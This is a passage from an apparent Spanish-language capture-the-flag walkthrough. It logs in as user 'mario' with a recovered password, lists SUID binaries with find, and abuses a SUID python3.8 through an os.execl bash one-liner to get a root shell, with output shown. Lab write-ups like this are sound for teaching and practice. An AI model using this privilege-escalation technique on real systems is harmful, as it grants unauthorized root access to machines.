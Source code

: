 Info:

```
La contraseña de mario es: invitaacachopo
```

Por lo que la probaremos de la siguiente forma:

```shell
su mario
```

Metemos como contraseña `invitaacachopo` y veremos que somo dicho usuario.

## Escalate Privileges

Si listamos los permisos `SUID` veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
1972651    468 -rwsr-xr-x   1 root     root       477672 Jan  2  2024 /usr/lib/openssh/ssh-keysign
  1972603     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  1966385     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /usr/bin/chsh
  1966508     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /usr/bin/newgrp
  1966519     68 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /usr/bin/passwd
  1966582     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /usr/bin/su
  1966446     88 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /usr/bin/gpasswd
  1966503     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /usr/bin/mount
  1983378      4 -rwsr-xr-x   1 root     root            320 Oct 11 04:09 /usr/bin/man
  1966607     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /usr/bin/umount
  1966379     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /usr/bin/chfn
  1983393   5364 -rwsr-xr-x   1 root     root        5490488 Nov  7 14:10 /usr/bin/python3.8
  1972421    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
```

Y nos interesa esta en concreto:

```
1983393   5364 -rwsr-xr-x   1 root  root   5490488 Nov  7 14:10 /usr/bin/python3.8
```

Por lo que haremos lo siguiente:

```shell
python3.8 -c 'import os; os.execl("/bin/bash", "sh", "-p")'
```

Info:

```
sh-5.0# whoami
root
```

Y con esto seremos `root`, por lo que habremos terminado la maquina.
